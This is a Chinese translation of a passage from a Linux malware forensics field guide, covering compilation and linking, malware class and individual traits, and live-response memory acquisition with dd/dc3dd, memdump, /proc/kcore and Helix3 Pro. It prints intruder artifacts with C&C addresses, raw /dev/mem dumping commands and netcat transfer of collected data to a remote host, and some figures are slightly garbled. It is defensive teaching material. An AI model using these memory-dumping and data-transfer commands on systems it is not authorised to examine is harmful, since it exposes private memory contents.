- 例如，恶意软件的一个组件可能被很容易识别为其他更关键组件的下载器，并且可能不需要进一步的深度分析。
- 同样，一个受感染的系统可能是入侵者用于访问其他受感染计算机的主要命令和控制点，并可能包含入侵者在网络上活动最有用的证据，以及关于其他受感染系统的信息。

这些取证技术的特定应用将在第 3 章中介绍。

## 取证恶意软件

对恶意软件进行取证分析需要理解可执行文件是如何编译的、静态链接与动态链接的区别，以及如何区分恶意软件的类别与个体特征。

## 可执行文件是如何编译的

在深入研究用于分解恶意程序的工具和技术之前，理解源代码如何编译、链接并变成可执行代码是非常重要的。攻击者在编译恶意代码过程中采取的步骤，通常是代码检查期间发现的具有证据意义的项目。

将源代码编译成可执行文件可以比比毛虫到蝴蝶的变形：初始和最终产品表现为两个完全不同的实体，尽管它们实际上是同一个东西，只是形式不同。



如图 I.3 所示，当程序被编译时，程序的源代码会通过编译器，编译器是将用高级语言编写的编程语句翻译成另一种形式的程序。

一旦通过编译器的处理，源代码就会转换为对象文件或机器码，因为它包含了一系列并非供人类阅读、而是供计算机处理器执行的指令。43

- 在源代码被编译成对象文件后，一个链接器会汇集任何所需的库和对象代码，生成一个可以在宿主机操作系统上运行的可执行文件，如图 I.4 所示。



**图 I.4**–链接器通过将所需的库和代码链接到对象文件创建一个可执行文件

- 通常在编译期间，可执行文件中会添加一些信息，这些信息可能与整个调查有关。可执行文件中存在的信息量取决于攻击者是如何编译它的。第 5 章涵盖了在分析过程中挖掘这些有用线索的工具和技术。

> 43 关于文件编译过程的良好讨论以及二进制可执行文件的分析，请参见 Jones, K.J., Beitlich, R., and Rose, C.W. (2005). Digital Forensics: Computer Security and Incident Response. Reading: Addison Wesley; Mandia, C., Proise, C., and Pepe, M. (2003). Incident Response & Computer Forensics, 2nd ed. New York: McGraw-Hill/Osborne; and Skoudis, E., and Zelter, L. (2003). Malware: Fighting Malicious Code. Upper River, NJ: Prentice Hall.

## 静态链接与动态链接

除了编译期间向可执行文件添加的信息外，检查嫌疑程序以确定它是静态还是动态可执行文件也很重要的，因为这将影响文件的内容和大小，进而影响你可能发现的证据。

- 静态可执行文件是用执行所需的所有库和代码一起编译的，使程序“自给自足”。
- 相反，动态链接的可执行文件依赖共享库才能成功运行。动态链接的可执行文件所需的库被称为*依赖项*。
- 在 Linux 程序中，依赖项通常是执行期间从操作系统导入的库文件。
- 通过在运行时调用所需的库而不是将其静态链接到代码中，动态链接的可执行文件体积更小，消耗的系统内存更少。

我们将在第 5 章和第 6 章详细讨论如何检查嫌疑文件以寻找依赖项，并深入探讨可执行与链接格式 (ELF) 文件结构和 ELF 文件分析。

## 类别与个体特征

要熟悉各种形式的每种恶意软件是不可能的。

- 最好的调查工作将包括将未知恶意软件与已知样本进行比较，并进行初步分析，这种分析的设计不仅是为了识别标本，还为了如何解释它。
- 虽然目前存在以 de 形式存在的恶意样本库，但这些资源远非详尽。
- 个体调查人员必须找到特征来确定其是否属于特定的家族。

Thornton 在“一般假设与原理”中很好地描述了这一过程：⁴4

> 44 Thornton, J. (1997). “The General Assumptions and Rationale of Identification.” In: (Faigman, D., Kaye, D., Saks, M., and Sanders, J., eds.), Modern Scientific Evidence: The Law And Science Of Expert Testimony, Vol. 2. St. Paul, MN: West Publishing Co.

鉴定模式下，法医人员检查证据是否存在已建立的特征。此类鉴定比比皆，在取证实验室中执行得频繁，以至于科学家往往不了解具体步骤。鉴定不需要此类项目在手中，但需要能够获取信息。例如，即使科学家从未见过且可能再次看到某个样本，也可以进行鉴定。这是因为该样本在文献中已有充分描述，且其有效性取决于测试的应用。

比较模式下，法医人员将待检证据项目与另一个项目进行比较。第二个项目是“已知项目”。该项目可能是实验室为此目的维护的标准参考项目（例如玻璃样本），也可能是示例样本，即案件的一部分（例如犯罪现场的样本）。该项目必须在手中。待检和已知项目将逐一特征进行比较，直到检查人员认为它们足够相似，可以得出相互相关的结论。

在比较模式下，考虑的特征可能尚未建立。这些特征是否已建立并评估主要取决于 (1) 检查人员的经验，(2) 遇到此类证据的频率。法医人员在得出结论之前必须确定特征。这说易行难，并且可能需要新的研究来理解观察到的特征的意义。例如，法医人员将犯罪现场的鞋印与嫌疑人的鞋子进行比较。鞋底设计的细微不规则被注意到了，检查人员不确定这些特征是这只鞋真正的个体特征，还是该制造商生产的数千只鞋的共同标记。这类问题在法医学科学中很常见，而且绝非易事。

- 恶意软件的来源本身就是一个可以将一个样本与其他区分开来的独特特征。
- 能够证明数字证据源于嫌疑人的计算机，可能足以将嫌疑人与犯罪联系起来。
- 例如，使用的拒绝服务攻击工具包含了定位这些攻击源有用信息。

- 例如，从分布式拒绝服务攻击工具中提取的 IP 地址和其他特征如图 I.5 所示。

```
socket
bind
recvfrom
%s %s
aif3YWfOhw.V.
PONG
*HELLO*
10.154.101.4
192.168.76.84
```

图 I.5–可疑恶意软件中的个体化特征

- 末尾经过清理的 IP 地址指示了恶意软件在互联网上命令与控制服务器（C&C）的位置，这些命令与控制系统内部可能包含有用的证据。
- 类特征也可以在入侵者与犯罪现场之间建立联系。例如，图图 I.6 所示的“root”安装文件包含了入侵者选择的用户名和端口号。

```
#!/bin/bash
# Define (You might want to change this)
port=3137
```

图 I.6–恶意软件中的类特征

如果在其他主机或嫌疑犯的计算机上发现了相同的特征，这些特征可能与其他证据相关，以证明入侵者负责了所有犯罪，且攻击是从嫌疑犯的计算机发起的。例如，检查 IP 地址为 192.168.0.7 的计算机发现了如下内容（图 I.7），有助于建立联系。请注意，恶意软件开发者不断发现新方法来破坏取证分析。例如，我们在 Linux 中遇到了以下反取证技术：

- 条件混淆代码
- 加壳与加密
- 对调试器、反汇编器和虚拟环境的检测

```
user@]$ ls -lat
total 888
-rw-r-- 1 root 5400 Mar 30 .bash_history
drwxr-xr-x 2 root 4096 Mar 37 ftp
drwxr-xr-x 2 root 4096 Mar 37 root
user@]$ ls .bash_history
-root 192.168.0.3 0
-root 192.168.0.3 0
-owned 192.168.0.3 31337
user@]$ cd ls -l
total 156
drwxr-xr-x 2 root 4096 Apr 25 38
drwxr-xr-x 2 root 4096 Apr 37 lib
-rw-r---- 1 root 2896 Apr 37 conf
-rw-r---- 1 root 380 Apr 34 bin
-rw-r---- 1 root 5075 Apr 34 root
8735 Apr 
user@]$ head /etc/xorg
```

图 1.7—检查多个受害者系统以寻找相似伪迹

- 在编译 ELF 文件过程中剥离符号和调试信息
- 目前有多种工具和技术可以克服这些反取证措施，其中许多在本书中有详细介绍。请注意，高级取证技术需要超出本书范围的专业知识和编程技能。关于逆向工程的深度覆盖可以在《IDA Pro Book: The Unofficial Guide to the World's Most Popular Disassembler》中找到。其他许多书籍提供了编写 rootkit 和其他恶意软件的细节。

## 从恶意软件分析到恶意软件取证

- 混合恶意威胁已经到来；对深度、可验证的代码分析以及形式化文档的需求随之产生，一种新的取证学科也应运而生。
- 在过去，数字调查人员可以相对容易地发现和分析恶意代码。UNIX rootkit 对系统取证分析几乎没有破坏。因为大多数恶意软件的功能是易观察的，所以数字调查人员不需要对代码进行深度分析。在许多情况下，信息安全社区的某些人员会对恶意软件进行基础功能分析并发布在网络上。
- 昔日的恶意软件根据功能和攻击向量可以清晰地分为不同的类别（病毒、蠕虫、木马），而今天的恶意软件样本通常是现代的、多层次的，因其多样化的功能和传播手段被称为“混合威胁”。随着计算机入侵者对数字技术日益熟练，恶意代码越来越多地设计用于阻碍有意义的分析。
- 通过采用阻止逆向工程、编码和隐藏网络流量以及最大限度地减少在文件系统中留下的痕迹的技术，恶意代码开发者正在使发现和取证分析变得更加。这种趋势始于 UNIX 上的内核加载 rootkit，并已演变为 Windows 和 Linux 系统上类似的概念方法。
- 如今，各种形式的恶意软件正在泛滥，它们自动传播（蠕虫行为）、提供远程控制（木马/后门行为），有时在被攻破的主机上隐藏其活动（rootkit）。

> ^45 http://nostarch.com/idapro2.htm。

> ^46 Hogland, G., and Butler, J. (2005). Rootkits: Subverting the Windows Kernel. Reading, MA: Addison-Wesley; Bluden, B. (2009). The Rootkit Arsenal: Escape and Evasion in the Dark Corners of the System. Burlington, MA: Jones & Bartlett Publishers; Metula, E. (2010). Managed Code Rootkits: Hooking into Runtime Environments. Burlington, MA: Syngress.

# 第1章

## 恶意软件事件响应

活动 Linux 系统上的易失数据收集与检查

本章解决方案：

- 易失数据收集方法论
  - 本地与远程收集
  - 易失数据的保护
  - 物理内存获取
  - 收集目标系统详情
  - 识别已登录用户
  - 当前和最近的网络连接
  - 收集进程信息
  - 将开放端口与运行中的进程和程序关联
  - 识别服务和驱动程序
  - 确定打开的文件
  - 收集命令历史
  - 识别共享
  - 确定计划任务
  - 收集剪贴板内容
- 活动 Linux 系统上的非易失数据收集
  - 存储介质的司法复制
  - 选择数据的取证保护
  - 评估安全配置
  - 评估信任主机关系
  - 收集登录和系统日志

工具箱附录与网站

本章中的符号引用与主题相关的附加工具将在工具箱附录中讨论。本章的更多信息和更新可以在配套恶意软件领域指南网站找到：http://www.malwarefieldguide.com/LinuxChapter1.html。

> ^47 http://www.virusbtn.com/resources/glossary/blended_threat.xml.


## Linux 系统恶意软件取证实战指南

## 引言

正如手术和尸检有其不同的时机一样，我们也需要对可能受损的计算机进行取证检查，而不是对磁盘的取证副本进行深度检查。保存现场系统（live system）的数据通常是必要的，以确定是否安装了恶意代码，而在恶意软件事件初始阶段收集的易失性数据可以提供宝贵的线索，包括恶意软件正在通信的远程服务器。

在最近的一次调查中，入侵者通过位于西欧的一台中间计算机连接到美国。数字调查人员无法获取受损西欧系统的取证副本，但该系统的所有者提供了易失性数据，其中包含 `netstat` 输出揭示了来自东欧（入侵者实际所在地）计算机的活动连接。

本章演示了保存易失性数据的价值，并就如何以取证规范的方式保存此类数据的实操指导。易失性数据的价值不仅限于恶意软件相关的进程内存、网协议（IP）地址、系统日志记录以及其他可以更完整地理解恶意软件及其在系统中用法的上下文细节。

当系统通电时，目标系统包含揭示系统状态的关键临时信息。这些易失性数据有时被称为状态信息。事件响应取证（或现场响应，live response）是在目标系统保持通电状态时获取状态信息的过程。正如引言章节所述，在从现场系统收集数据时，应考虑易失性顺序（Order of Volatility），以确保关键系统数据在丢失或系统关机之前被获取。此外，由于本章范围涉及通过恶意代码事件视角观察现场响应，本节概述的保存技术并非旨在提供全面或详尽的方法，而是为了提供与现场系统上恶意软件相关的稳固基础。

> 分析提示
>
> **反侦视**
>
> 如果恶意入侵者发现其在受损系统上的活动已被发觉，通常会采取某些行动。这些行动可能包括破坏受损系统上的证据，并设置额外的后门以维持对受损系统的长期未经授权访问。因此，在现场系统上执行初始现场响应操作并保存易失性数据时，重要的是不要惊动入侵者，并防止持续的未经授权远程访问。这包括清理任何现场响应的残留物（如命令历史），并确保不在系统中留下任何现场响应命令的输出。

# 第 1 章 | 恶意软件事件响应

通常，恶意代码的现场响应是一个动态过程，每个事件的事实和背景决定了调查人员进行调查的方式和手段。与其他取证工作不同（其他工作只需获取目标系统硬盘的取证副本镜像就足够了），在目标系统上调查恶意代码事件始终需要某种程度的现场响应。这是因为调查人员识别恶意软件感染的性质和范围所需的大部分信息存在于易失性信息中，这些信息在计算机关机时将会丢失。

本章为在恶意软件事件期间保存 Linux 系统上的易失性数据提供了一种整体方法论，并假设数字调查人员已经构建了一个由可信工具组成的现场响应工具包，或者正在使用一套专门设计的工具套，以便在事件响应期间以自动方式从 Linux 系统收集数字证据。

有许多 Linux 原生命令可用于从运行中的计算机中收集易失性数据。由于受损系统上的命令可能被恶意软件破坏且不可信，因此必须使用一个与目标操作系统交互极少的实用工具包来捕获易失性数据。使用此类可信的二进制文件是任何检查的关键部分，并可以揭示被 rootkit 隐藏的信息。然而，当涉及可加载内核模块（LKM）rootkit 或自注入 rootkit（如 Adore 或 Phalanx）时，低级系统调用和查找表会被劫持，即使是不依赖目标系统组件的静态编译二进制也是无效的这使得必须依赖内存取证和文件系统取证。

虽然建议将自动收集数字证据作为避免错误和无意遗漏的措施，本章及相关附录的目标是为数字调查人员提供现场响应过程的详细说明，以及应该收集的数字证据。

> 分析提示
>
> 现场访谈
>
> 在进行现场响应之前，从相关证人处尽可能多收集关于恶意代码事件和目标系统的信息。请参考《现场访谈问题附录》。

## 本地收集与远程收集

- 选择从目标系统收集数据的方式。
- 本地收集意味着你将外部存储介质连接到目标系统并将结果保存到连接的介质中。
- 远程收集意味着你正在建立网络连接（使用 `netcat` 或 `cryptcat` 监听器），并通过网络将获取的系统数据传输到收集服务器。这种方法减少了系统交互，但依赖于通过 `netcat` 监听器建立的端口来穿越目标网络的能力。

> 额外的远程取证工具（如 F-Response 和 FTK）具有某些支持易失性数据收集的能力，并在工具箱附录中进行了讨论。

## 调查考虑因素

- 在某些情况下，目标网络将有严格的防火墙和代理配置，导致建立远程收集库变得困难或不可行。
- 在现场响应期间远程获取数据（如系统物理内存镜像）可能耗时且消耗资源，取决于目标系统中随机内存（RAM）的大小，需要数 GB 数据穿越网络。图 1.1 所示的以下命令对将从目标系统获取数据的现场响应工具的输出发送到远程 IP 地址 (`172.16.131.32`)，并将输出保存在命名的 "`<toolname>20131023host1.txt`" 中。

| 目标系统 -> | 收集系统 (`172.16.131.32`) |
| :--- | :--- |
| `<trusted tool> -v nc` | `nc -l -p 13579 > <toolname>20131023host1.txt` |
| `172.16.131.32 13579` | |

图 1.1—使用 Netcat 命令建立网络监听器

## 恶意软件事件响应

- 始终确保用于获取响应数据的介质是全新的，不包含无关案件数据、恶意代码样本或其他以往调查的产物。在“脏”或受损的介质上获取数字证据会损害所获取数据的取证完整性。

## 易失性数据收集方法论

- 在现场系统上运行工具之前，在测试计算机上对其进行评估，以记录其对系统的潜在影响。
- 应按照引言章节的易失性顺序从现场系统收集数据。提供以下指南是为了更清楚地感知可以保存的性数据类型。

## 记录收集步骤

- 大多数 Linux 和 UNIX 系统都有 `script` 工具可以记录运行的命令和每个命令的输出，为数字取证提供支持文档。
- 一旦调用，`script` 将记录时间和日期，如图 1.2 所示。

```
Script started on Tue 08 Mar 2013 02:01:19 AM EST
```

图 1.2-Script 命令的时间日期日志

- `Script` 在内存中缓存数据，只有在输入 "`exit`" 终止时才会写入完整的记录信息。默认情况下，`script` 的输出保存在当前工作目录，可以在命令行上指定替代输出路径。

## 易失性数据收集步骤

- 在受损机器上，从包含静态编译二进制文件的工具包运行可信的 shell（例如在旧版非专利 Helix CD或其他发行版上）。
- 运行 `script` 开始记录你的按键。
- 记录计算机的时间并与可靠的时间源进行对比。
- 获取物理内存内容。
- 收集主机名、IP 地址和操作系统细节。
- 收集系统状态和环境细节。
- 识别登录到系统的用户。

# Linux 系统恶意软件取证现场指南

- 检查网络连接、开放端口以及相关活动。
- 检查运行中的进程。
- 将开放端口与相关的进程和程序关联。
- 确定访问了哪些文件和套字（sockets）。
- 检查已加载的模块和驱动程序。
- 检查已连接的主机。
- 检查命令行历史。
- 识别挂载的共享。
- 检查是否存在未经授权的账户、组、共享以及系统资源和配置。
- 确定计划任务。
- 检查剪贴板内容。
- 确定审计策略配置。
- 输入 `exit` 终止脚本以完成按键记录日志。

> ### 分析提示
>
> **文件列表**
>
> 在进行现场响应时，使用 The SleuthKit 收集每个分区的**列表可能是有益的（例如 `/media/cdrom/Linux-IR/fls /dev/sda lr -m / > body.txt`）。例如，将文件列表与同一系统的取证副本进行比较，可以揭示 rootkit 是否隐藏了特定的目录或文件。此外，如果无法获取取证副本，此类文件列表可以帮助确定某些文件是否被创建、修改或访问过。

## 易失数据的保护

- 首先从受控系统获取物理内存，然后使用现场响应工具保护信息。
- 由于 Linux 是开源的，人们对内存中的数据结构非常了解。Linux 数据结构的透明性不仅适用于数据在内存中的位置，还扩展到了用于描述进程和网络连接的数据结构等感兴趣的响应项。
- Linux 内存结构用 C 语言编写，可以在每个操作系统版本的包含头文件中查看。然而，每个版本的 Linux 数据结构略有不同，这使得开发一种广泛适的工具变得困难。关于内存取证的详细讨论，请参阅第 2 章。

# 第 1 章恶意软件事件响应

- 在捕捉完整内存内容后，使用事件响应工具保护现场系统的信息，例如运行进程列表、开放文件和网络连接等其他易失数据。
- 内存中的某些信息可以使用受检系统上的命令行界面 (CLI) 工具显示。这些信息在内存镜像加载到取证工作站进行检查后，可能无法直接访问或轻松显示。

## 调查考虑因素

- 在某些情况下，可能从现场受控系统捕捉一些非易失数据，甚至可能需要创建整个磁盘的取证副本。对于所有保存的数据，请记住，数字调查员必须独立对现场检查输出的的消息摘要 (MD5) 和其他属性进行处理。
- 为了避免失误和遗漏，易失数据的收集应当是自动化。工具箱附录中讨论了常用的事件响应工具。

## 在实地 Linux 系统上获取物理内存

在利用现场响应工具包中的各种工具收集系统易失数据之前，请先从受控系统获取完整的内存镜像。

- 在受控系统上运行事件响应工具会改变内存的内容。
- 为了从物理内存中获得最多的数字证据，请在运行任何其他事件响应流程之前执行全内存捕捉。
- 有许多工具和方法可以用于获取物理内存，且许多工具具有相似的功能。通常，选择工具和方法取决于熟悉程度和偏好。鉴于每个恶意软件事件都是独特的，处理工作的正确方法可能不仅取决于事件类型，还取决于受害系统的类型。这里提供了多种获取物理内存的方法，并对捕获数据的检查将在将在第 2 章中介绍。

## 在本地获取物理内存

可以使用命令行或图形用户界面 (GUI) 工具从受控系统本地获取物理内存镜像。

### 命令行工具

### 使用 dd 获取物理内存

- 捕捉 Linux 或 UNIX 系统完整物理内存的最简单方法是运行静态编译版本的 `dd`¹ 或 `dc3dd`²。然而，现代版本的 Linux 限制了对内存的访问，使得这种更直接的内存获取方法不再适用。尽管如此，下面的示例演示了如何获取物理内存（图 1.3）。

```
#### /media/cdrom/Linux-IR/dc3dd if=/dev/mem >/media/IR/host.physicalmem
```

图 1.3-使用 dc3dd 获取物理内存

- `/dev/mem` 和 `/dev/kmem` 是提供系统内存访问的设备文件（或“特殊文件”）。
- `/dev/mem` 提供对物理内存的访问；mem 中的地址被解释为物理内存地址。
- `/dev/kmem` 提供对操作系统内核虚拟地址空间的访问。与 mem 不同，kmem 使用虚拟内存地址。
- 可以将获取的数据的大小与系统中的预期内存量进行比较，以确保已获取所有数据。
- 计算输出文件的加密校验和（例如 MD5 哈希值），以便记录和未来的完整性验证。

¹ `dd` 命令是大多数 Linux 变体的原生自带的，通常用于转换和复制文件。
² `dc3dd` 由美国国防部网络犯罪中心的专业开发人员编写，是面向取证和安全性的 GNU dd 补丁版本（http://sourceforge.net/projects/dc3dd/）。
³ 有关 `/dev/mem` 和 `/dev/kmem` 的更多信息，请参阅 Linux 程序员手册中 mem 的条目；另请参见在线资源 http://linux.die.net/man/4/mem。

# 第 1 章恶意软件事件响应

### 使用 memdump 获取物理内存

`memdump` 工具是获取内存的另一种可选命令行工具。

- 虽然使用 `dd`/`dc3dd` 获取 `/dev/mem` 的内容在 Linux 系统上通常有效，但某些 Linux 和 UNIX 系统以不同方式处理物理内存，使用 `dd` 命令。⁴
- Coroner's Toolkit 中的 `memdump` 命令解决了这些问题，并可将物理内存的内容保存到文件中，如图 1.4 所示。

```
/media/cdrom/Linux-IR/memdump > /media/IR/host.memdump
```

图 1.4-使用 memdump 获取物理内存

#### 收集 /proc/kcore 文件

Linux 系统（以及其他版本的 UNIX）有一个“proc”目录，包含代表内核状态的虚拟文件系统。

- `/proc/kcore` 以 ELF 格式包含所有物理内存数据。
- 除了原始内存镜像，还要收集此文件的内容，因为 `/proc/kcore` 中的 ELF 格式数据可以使用 GNU 调试器 (`gdb`) 进行检查。在图 1.5 中，使用 `dc3dd` 获取 kcore 文件。

```
/media/cdrom/Linux-IR/dc3dd if=/proc/kcore=/media/IR/memory/host.kcore
```

图 1.5-使用 dc3dd 获取 /proc/kcore 内容

### 基于 GUI 的内存导出工具

#### 使用 Helix3 Pro 获取物理内存

Helix3 Pro 是一个数字取证套件光，提供了现场响应和可引导取证环境。

- 现场响应工具为数字调查员提供了直观的图形界面和简单的系统内存镜像方法。
- Helix3 Pro 通过镜像 `/dev/mem` 设备文件从受控系统获取物理内存。
- 加载 Helix3 Pro 光后，导航到 Linux 目录并调用 `helix3pro` 二进制文件启动程序。
- 如图 1.6 所示，首先选择要获取的物理内存设备（1）。使用“获取设备”（2），由硬盘和绿色箭头按钮。
- 选择“镜像到设备”（3）作为获取数据的目标，并选择目标设备（4）。一旦选择了设备，按下“开始获取”按钮（5）。
- 在从受控系统镜像内存时，将出现进度条（图 1.7），显示镜像过程的状态。

## 记录 /proc/meminfo 文件的内容

收集物理内存后，收集有关内存状态和用量的详细信息。

- 请记住，`/proc` 目录包含一个虚拟文件系统，其中的文件代表了内核当前的状态。

出于记录的目的，收集内存信息——如图 1.8 所示，存储在 `/proc/meminfo` 中。这些信息在获取可用的可移动存储介质时，对于确定介质可以容纳多少内存非常有用，这可以帮助在获取过程中判断是否需要大型存储介质，这比在获取过程中才发现空间不足要好。

```
#### /media/cdrom/Linux-TB/cat /proc/meminfo
total: used: free: shared: cached:
Mem: 265153216 76623872 184889344 0 00226048 3493744
Swap: 148013056 0 148013056
MemTotal: 255384 kB
MemFree: 180556 kB
MemShared: 0 kB
Buffers: 19752 kB
Cached: 34116 kB
SwapCached: 0 kB
Active: 59128 kB
Inact_dirty: 948 kB
Inact_clean: 280 kB
Inact_target: 12068 kB
HighTotal: 0 kB
HighFree: 0 kB
LowTotal: 255384 kB
LowFree: 180556 kB
SwapTotal: 144544 kB
SwapFree: 144544 kB
Committed_AS: 4482412 kB
```

> 图 1.8 - 检查 /proc/meminfo 的内容

分析提示

内存的其他区域

计算机上还有其他类型的设备支持内存，例如显卡内存，恶意软件未来可能会利用这些内存。Linux 系统上的固件也是可能的。然而，不要因为入侵者在系统格式化并从原始安装介质重新构建后重新获得访问权限，就断定他们正在利用此类区域。应该首先考虑这些现象更简单、更有可能的解释。虽然在大多数恶意软件事件中没有必要获取这些内容，但值得考虑。

## 调查考虑

- 在获取 RAM 内容时，仔细记录并比较由各种工具报告的数据量。
- Linux 内存取证处于开发的早期阶段，该学科仍某些方面需要进一步的研究。因此，数字调查人员在获取易失数据时需要保持警惕，以便在发生异常时能够采取行动。

## 远程物理内存获取

- 目标系统的物理内存转储可以通过网络保存到远程位置。

如前所述，Helix3 Pro 是一个数字取证工具套件 CD，它为数字调查人员提供了直观的图形界面和用户友好的方法来对 Linux 系统的物理内存。

- 除了将内存镜像到本地存储设备外，Helix3 Pro 还提供了一种通过网络将内存内容保存到远程位置的解决方案，Helix3 Pro Image Receiver——这是一个可以通过图形界面配置的网络监听器，用于接收从 Helix3 Pro 通过网络传输的数据。
- 从远程检查系统执行 Helix3 Pro Image Receiver 程序 (`/receiver`)。
- 一旦将 CD-ROM 插入到运行系统中，你就可以在 `/Linux/receiver` 访问接收器程序，并从桌面 GUI 执行，或从命令行通过 `./receiver` 启动。如果你使用自己的可移动介质，程序的执行将取决于你放置接收器可执行二进制文件的路径。
- 启动程序后，数字调查人员将看到一个用于配置远程获取的 GUI，如图 1.9 所示。

## 配置 Helix3 Pro Image Receiver：检查系统

- 选择物理内存将拷贝到的目标位置 (1)。传输发生的默认端口 (2) 为 8888，但可以进行修改。
- 选择密码（可选）（注意：此密码用于传输，而不是用于加密内存转储文件内容的密码）。
- 选择数据传输时的分段方式。
- 检查系统的 IP 地址显示在用户界面中，供参考和确认。
- 要开始在接收器上监听连接，点击“Listen for Connections”（监听连接）按钮。



图 1.9 – Helix3 Pro Image Receiver




图 1.10 – 通过 Helix3 Pro Receiver 传输数据

- 一旦从目标系统传输数据（下一节讨论），传输进度将显示在界面底部的视图面板（图 1.9 中标记为 7，并在 1.10 中进一步所示）。

## 配置 Helix3 Pro 通过 Image Receiver 传输：目标系统

- 从目标系统执行 Helix3 Pro 程序 (`./helix3pro`)；该二进制文件位于挂载的 CD-ROM 上的 `/Linux/helix3pro` 目录。

- 启动程序后，数字调查人员将看到 Helix3 Pro GUI（图 1.11）。

- 选择内存窗口中显示的物理内存 (1)。选中后，将显示设备属性 (`/dev/mem`)。

- 目标系统 Helix3 Pro 提供了对 Linux 系统的物理内存进行成像的直观图形界面和用户友好的方法。

- 此时数字调查人员将看到用于配置远程获取的 GUI。

- 如图 1.11 所示，为了通过网络传输内存，选择“Image to Receiver”（镜像到接收器）(3) 并选择目标 (4)。



6 Helix3 Pro 的用户手册指出：“由于大小限制，Helix3 Pro 不包含 Linux、Solaris 和 Windows 的静态二进制文件。相反，Helix3 Pro 的二进制文件是 32 位的，无法在 64 位系统上运行。”

## 第1章 Linux 系统恶意软件取证指南



图 1.12 – Helix3 Pro 显示物理内存



图 1.13 – 启动获取

- 若要配置网络连接，点击“Setup”（设置）按钮（图 1.13）。在配置界面（图 1.14）输入 IP 地址、端口号和与接收器匹配的密码。

- 设置好后，点击“Start Acquisition”（开始获取）（图 1.13）。将出现进度条，显示处理状态。

> 额外的取证工具如 F-Response、ProDiscover 和 FTK 具有远程获取内存的能力，将在附录中讨论。



图 1.14 – 网络配置界面

## 获取物理内存的其他方法

为了增强安全性并防止 rootkit，新版本的 Linux `/dev/mem` 文件被限制在有限的内存范围内，使得必须使用内核模块来获取内存内容。

- 某些可以完成此任务的自定义内核模块 fmem SecondLook 以及 Linux Memory Extractor (`LiME`)。

> 分析提示

内存获取内核模块

为了使用这些内存获取工具，需要在与目标系统相同或类似的系统上编译相关的内核模块。在某些情况下，组织可能在事件发生之前就为事件响应做好了准备，编译了这些工具。如果不是这种情况，可以在与目标系统类似的计算机或配置为类似于目标系统的虚拟机上编译并测试这些工具。

- 请注意，如果不是在与被检查系统相同的 Linux 版本上编译，内核差异会导致这些自定义内核模块变得不稳定或不可靠。

⁷ 关于 fmem 的更多信息，请访问 http://hysteria.sk/~niekt0/foriana/fmem_current.tgz。

⁸ 关于 SecondLook 内存获取脚本的更多信息，请访问 http://secondlook-forensics.com。

⁹ 关于 Linux Memory Extractor (`LiME`) 的更多信息，请访问 http://code.google.com/p/lime-forensics。

# 第1章 恶意软件事件响应

```
